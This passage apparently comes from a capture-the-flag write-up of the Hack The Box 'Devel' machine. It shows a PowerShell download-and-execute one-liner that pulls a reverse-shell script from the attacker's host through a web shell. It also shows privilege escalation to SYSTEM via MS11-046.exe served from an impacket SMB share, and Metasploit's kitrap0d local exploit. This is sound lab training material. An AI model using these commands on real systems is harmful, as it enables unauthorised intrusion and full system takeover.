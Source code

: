 ```
python3 -m http.server 3000
```

Finally, we go to http://devel.htb/cmd.aspx and enter the following commands to be executed. This will download the Inoke-PowershellTcp.ps1 script and spawn the reverse shell.

```
powershell iex(new-object net.webclient).downloadstring('http://10.10.16.8:3000/Invoke-PowerShellTcp.ps1')
```

### Local Escalation using impacket-smbserver
Another way of doing local escalation is by using impacket-smbserver. 

First, set up the impacket-smbserver in the smb directory

```
┌──(kali㉿kali)-[~/Desktop]
└─$ impacket-smbserver share smb
```

All we have to do is to execute the local privilege executable from the smb server, instead of hosting it on our server and transferring it to the target server.

```
c:\Windows\Temp>//10.10.16.8/share/MS11-046.exe
//10.10.16.8/share/MS11-046.exe


c:\Windows\System32>
c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>
```

### Local privilege escalation with Metasploit
To use metasploit for local privilege escalation, we would need to first use metasploit to generate a reverse shell and afterwards, we will need to background this session using the command ```background```.

Afterwards, we will use the local_exploit_suggester in metasploit to find possible kernel exploits.

```
use post/multi/recon/local_exploit_suggester
set session 1
run
```

The execution of the local_exploit_suggester returns a list of potential vulnerabilities. For this exploitation, we will be using ```windows/local/ms10_015_kitrap0d```

```
use exploit/windows/local/ms10_015_kitrap0d
set LHOST 10.10.16.8
set session 1
run
```

